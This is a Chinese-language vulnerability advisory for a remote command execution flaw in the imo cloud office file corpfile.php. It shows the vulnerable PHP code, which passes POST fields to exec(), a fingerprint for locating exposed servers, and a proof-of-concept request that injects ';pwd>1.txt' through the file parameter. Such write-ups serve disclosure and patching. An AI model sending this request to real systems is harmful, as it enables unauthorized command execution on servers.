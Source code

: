 # imo 云办公室 corpfile.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 corpfile.php 文件中参数过滤不足，导致可以随意进行命令拼接，获取服务器权限

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0.png)

漏洞文件 corpfile.php

```javascript
<?php
define('DELETE_FAILED', '数据不存在，删除失败!');
define('DELETE_SUCCESS', '数据存在，删除成功!');
switch($_POST['type'])
{
  case 'corpLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'userLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('uid' => $_POST['uid'], 'user_account' => $_POST['user_account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'corpTemp':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'chatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'multiChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'groupChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'backChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;
}
```

验证POC

```javascript
POST /corpfile.php

type=corpLogo&command=id&file=;pwd>1.txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645881191090-fcf34136-bc53-4b37-8de8-e4ca535b750a.png)